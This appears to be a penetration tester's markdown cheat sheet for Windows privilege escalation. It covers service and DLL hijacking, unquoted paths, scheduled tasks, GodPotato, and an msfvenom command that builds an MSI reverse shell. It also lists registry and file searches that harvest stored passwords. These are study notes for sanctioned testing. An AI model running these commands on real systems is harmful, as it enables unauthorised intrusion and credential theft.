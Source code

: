 #### Powershell History

- Get-History
- (Get-PSReadlineOption).HistorySavePath

#### Interesting Microsoft Office and text files

- Get-ChildItem -Path C:\ -Include _.txt,_.pdf,_.xls,_.xlsx,_.doc,_.docx -File -Recurse -ErrorAction SilentlyContinue

#### KDBX file?

- Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue

#### Use windows-exploit-suggester.py

- ./windows-exploit-suggester.py --update
- run `systeminfo` command on the window host then make a txt file on kali for it
- ./windows-exploit-suggester.py -d 2024-11-05-mssb.xls -i systeminfo

#### Use PowerUp.ps1

- .\PowerUp.ps1
- Get-ModifiableServiceFile

#### Use PrivescCheck.ps1

#### Binaries Hijack with uncommon Services

- uncommon/odd services? -> Service Binary Hijack
  - Manual Enumeration
    - Get-CimInstance -ClassName Win32_Process | Sort Name | Select Name, CommandLine | Format-List
    - Get-CimInstance -ClassName win32*service | Select Name, StartMode | Where-Object {$*.Name -like 'auditTracker'}
    - check for user's permission on the service exe/path `icacls "C:\xampp\apache\bin\httpd.exe"`, we want F access
    - if we can replace the service executable with our then restart the service

#### Unquoted service path?

- numerate running services to see if we can start/stop them
  - Get-CimInstance -ClassName win32_service | Select Name,State,PathName
- can also run this to check for unquote services
  - wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
- check to see if u can stop/start the service
  - `Start-Service GammaService` or `Get-Service <Name>` & `Stop-Service GammaService` (Make sure to stop the service before file transfer)
- using `icacls "C:\"` to check to see if we can write to the directory indicating with _W_ or full access _F_

#### DLL hijack

- check for installed applications and see if anything odds if so check them out
  - Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- look up the interesting installed application and see if it has any DLL vulnerabilies
- check if current user can write to the directory so we can place the malicious

#### Scheduled task?

- check for running scheduled tasks
  - schtasks /query /fo LIST /v
- if scheduled task is using an exe, use `icacls` to check if we have write permission

#### Using exploits

- check systeminfo for anything vulnerables
  - check _SeImpersonatePrivilege_ using `whoami /priv`
    1. use `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"` to check for .NET version and use GodPotato
    2. download nc64.exe as well

#### AlwaysInstallElevated?

- use msfvenom to create a .msi file as a reverse shell ![[Pasted image 20241105173221.png]]
- msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR tun0 IP> LPORT=445 -f msi -o shell.msi

---

- Check users and Groups
- Check network config
  - run `ipconfig` for any duo network interface
  - check open ports
- any weird/uncommon application install? Store Cred Check
  - use LaZagne.exe
  - check for stored credentials [Stored Credentials – Penetration Testing Lab](https://pentestlab.blog/2017/04/19/stored-credentials/)
  - findstr /si password _.txt
    findstr /si password _.xml
    findstr /si password *.ini
    C:\> dir /b /s unattend.xml
    C:\> dir /b /s web.config
    C:\> dir /b /s sysprep.inf
    C:\> dir /b /s sysprep.xml
    C:\> dir /b /s *pass\*
    C:\> dir /b /s vnc.ini
  - Check here, could also be in base64
    - C:\unattend.xml
      C:\Windows\Panther\Unattend.xml
      C:\Windows\Panther\Unattend\Unattend.xml
      C:\Windows\system32\sysprep.inf
      C:\Windows\system32\sysprep\sysprep.xml
  - IIS web server?
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
      C:\inetpub\wwwroot\web.config
  - Group Policy Preferences
    - Services\Services.xml
      ScheduledTasks\ScheduledTasks.xml
      Printers\Printers.xml
      Drives\Drives.xml
      DataSources\DataSources.xml
  - McAfee?
    - %AllUsersProfile%Application Data\McAfee\Common Framework\SiteList.xml
  - VNC?
    - VNC Ultra
      - reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
  - Putty?
    - reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    - reg query HKLM /f password /t REG_SZ /s
    - reg query HKCU /f password /t REG_SZ /s
  - Window AutoLogin?
    - reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
  - SNMP Parameters?
    - reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
